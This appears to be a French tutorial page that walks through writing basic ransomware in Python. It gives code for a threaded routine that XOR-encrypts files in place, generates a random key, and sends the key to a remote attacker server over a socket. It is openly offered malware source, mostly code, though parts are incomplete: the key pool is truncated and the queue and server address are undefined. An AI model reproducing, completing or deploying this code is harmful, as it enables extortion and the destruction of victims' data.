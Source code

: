 Nous allons créer un ransomware de base en Python qui chiffre les fichiers dans un répertoire spécifique.

#### Modules et Variables Nécessaires

```python
import socket
import os
import threading
import queue
import random

# Informations de chiffrement
ENCRYPTION_LEVEL = 512 // 8
key_char_pool = 'abcdefg...z'
key_char_pool_len = len(key_char_pool)
```

#### Fonction de Chiffrement

```python
def encrypt(key):
    while True:
        file = q.get()
        try:
            key_index = 0
            max_key_index = len(key) - 1
            encrypted_data = ''

            with open(file, 'rb') as f:
                data = f.read()
            with open(file, 'w') as f:
                f.write('')
            for byte in data:
                xor_byte = byte ^ ord(key[key_index])
                with open(file, 'ab') as f:
                    f.write(xor_byte.to_bytes(1, 'little'))
                if key_index >= max_key_index:
                    key_index = 0
                else:
                    key_index += 1
            print(f'{file} successfully encrypted')
        except:
            print(f'Failed to encrypt file :(')
        q.task_done()
```

#### Génération de la Clé et Envoi au Serveur

```python
# Générer la clé de chiffrement
key = ''
for i in range(ENCRYPTION_LEVEL):
    key += key_char_pool[random.randint(0, key_char_pool_len - 1)]
print("Key Generated!!!")

# Connecter au serveur pour transférer la clé et le nom d'hôte
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((IP_ADDRESS, PORT))
    s.send(f'hostname : {key}'.encode('utf-8'))
    s.close()
```
